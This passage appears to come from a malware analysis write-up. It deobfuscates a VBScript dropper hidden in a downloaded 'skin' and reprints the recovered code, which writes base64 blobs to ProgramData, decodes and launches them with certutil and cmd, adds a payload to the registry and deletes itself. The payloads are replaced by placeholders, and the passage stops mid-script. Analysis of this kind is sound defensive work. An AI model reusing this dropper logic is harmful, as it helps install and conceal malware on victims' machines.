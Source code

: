 - **iajdFe3** is used to create a text file in the script_path_b64 path and base_1 is being written into it.
- Next up we see some basic powerhshell commands that are divided by the &. We can just remove the spaces and join them to see the command.
- **aFoZLFM** is also being used to create a text file in the drop_file_b64 path and base_2 is being written into it.
- **nMJNsm** is also being used to create a bat file that will be used to decode the base64 using the xor_key we saw earlier and the file will be also added to registry.
- **selfDel** function is ran to delete the original skin to cover up any tracks
- Last we have another base64 string but as it's not being referenced anywhere we will leave it . It might be there just to confuse us. Changing the names and remove the required characters the final decoded Vb script looks something like this.

	
```
On Error Resume Next

Set programShell = WScript.CreateObject("WScript.Shell")
Set fileSystem = CreateObject("Scripting.FileSystemObject")

xor_key = "0x8d"
Sub selfDel
	fileSystem.DeleteFile(WScript.ScriptFullName)
End Sub
Sub main
	programdata_dir = programShell.ExpandEnvironmentStrings("%programdata%\")
	If Not fileSystem.FolderExists(programdata_dir) Then
		programdata_dir = programShell.ExpandEnvironmentStrings("%systemroot%\")
	End If

	base_1 = " something big here "
	base_2 = " something big here too"
	scipt_name = "malicious_v2.0_beta.xlsm"
	drop_file_name = "wg5Du.iWJ446"
	script_name_b64 = scipt_name & ".b64" ' malicious_v2.0_beta.xlsm.b64
	drop_file = drop_file_name & ".b64" ' wg5Du.iWJ446.b64
	drop_file_bat = drop_file_name & ".bat" ' wg5Du.iWJ446.bat

	script_name_2 = scipt_name ' malicious_v2.0_beta.xlsm
	script_path_b64 = programdata_dir & script_name_b64 ' C:\ProgramData\malicious_v2.0_beta.xlsm.b64
	drop_file_path = programdata_dir & drop_file_name ' C:\ProgramData\wg5Du.iWJ446
	drop_file_b64 = programdata_dir & drop_file ' C:\ProgramData\wg5Du.iWJ446.b64
	drop_file_bat_path = programdata_dir & drop_file_bat ' C:\ProgramData\wg5Du.iWJ446.bat


	Set newTextFile = fileSystem.CreateTextFile(script_path_b64, True)
	newTextFile.Write(base_1)
	newTextFile.Close()


	programShell.Run "powershell certutil -decode " & script_path_b64 & " " & script_name_2, 0, True
	' powershell certutil -decode C:\ProgramData\malicious_v2.0_beta.xlsm.b64 malicious_v2.0_beta.xlsm

	programShell.Run "cmd /c del /q /f " & script_path_b64, 0, True
	' cmd /c del /q /f C:\ProgramData\malicious_v2.0_beta.xlsm.b64

	programShell.Run "cmd /c start " & script_name_2, 0, True
	' cmd /c start malicious_v2.0_beta.xlsm


	Set newTextFile_2 = fileSystem.CreateTextFile(drop_file_b64, True)
	newTextFile_2.Write(base_2)
```